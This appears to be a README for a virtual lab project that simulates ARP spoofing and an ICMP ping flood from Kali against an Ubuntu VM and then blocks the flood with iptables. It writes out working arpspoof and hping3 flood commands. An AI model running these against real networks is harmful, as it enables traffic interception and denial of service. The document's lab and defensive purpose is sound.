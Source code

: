 #  Simulating Attacks and Defending Against Them

##  Objective
The goal of this project was to simulate **network attacks** such as ARP spoofing and ping floods in a virtual environment using Kali Linux as the attacker and Ubuntu as the defender, and then analyze **detection** and **mitigation techniques**.

## Tools Used
- **VirtualBox or VMware** – virtualization software  
- **Kali Linux** – attacker machine ([Download](https://www.kali.org))  
- **Ubuntu** – defender machine ([Download](https://ubuntu.com))  
- **Dsniff** – installed on Kali Linux (for `arpspoof`)  
- **Wireshark** – installed on Ubuntu (for packet analysis)  
- **hping3** – used for aggressive flooding attacks  

## Project Setup
1. Install **Kali Linux** and **Ubuntu** on VirtualBox (or VMware).  
2. Configure both systems to be on the **same network** (NAT or Host-Only).  
   - Example IPs:  
     - Kali Linux (attacker): `192.168.1.10`  
     - Ubuntu (defender): `192.168.1.20`
    
3. Verify connectivity between machines:  
   ```bash
   ping 192.168.1.20   # from attacker to victim
   ping 192.168.1.10   # from victim to attacker
   ```

Note: Successful pings confirm communication.

##  Simulating Attacks

### 1. Enable IP Forwarding on Kali

```bash
echo 1 | sudo tee /proc/sys/net/ipv4/ip_forward.
```

Output `1` means IP forwarding is active.

### 2. Install and Use Dsniff (ARP Spoofing)

```bash
sudo apt update
sudo apt install dsniff
sudo arpspoof -i eth0 -t 192.168.1.20 192.168.1.1
```

This tricks the victim into sending traffic meant for the gateway (`192.168.1.1`) to the attacker.


### 3. Install and Use hping3 (Ping Flood Attack)

```bash
sudo apt install hping3
sudo hping3 -1 --flood -p 80 192.168.1.20
```


This sends an aggressive flood of ICMP packets to the victim system.

##  Defending Against the Attack

On the Ubuntu defender system, use **iptables** to block the attacker:

```bash
sudo iptables -A INPUT -s 192.168.1.10 -p icmp -j DROP
sudo iptables -L
```

This prevents ICMP packets from the attacker, stopping the flood.

##  Analysis

* The victim system stopped responding to ICMP packets after the firewall rule was applied.
* The attacker continued sending requests, but no replies were received.
* Wireshark confirmed that packets were being dropped.

##  Conclusion

This project demonstrated a **Man-in-the-Middle (MITM) attack** using ARP spoofing and a **ping flood (DoS attack)**, along with defensive measures using `iptables`.

### Key Takeaways:

* ARP spoofing can redirect traffic from victims to attackers.
* Flooding attacks can overwhelm systems with packets.
* Simple firewall rules can mitigate such threats.

### Best Practices to Prevent Attacks:

* Always use **encrypted connections (HTTPS)**.
* Use a **VPN** when connecting to public Wi-Fi.
* Deploy **intrusion detection systems (IDS/IPS)** to monitor unusual traffic.


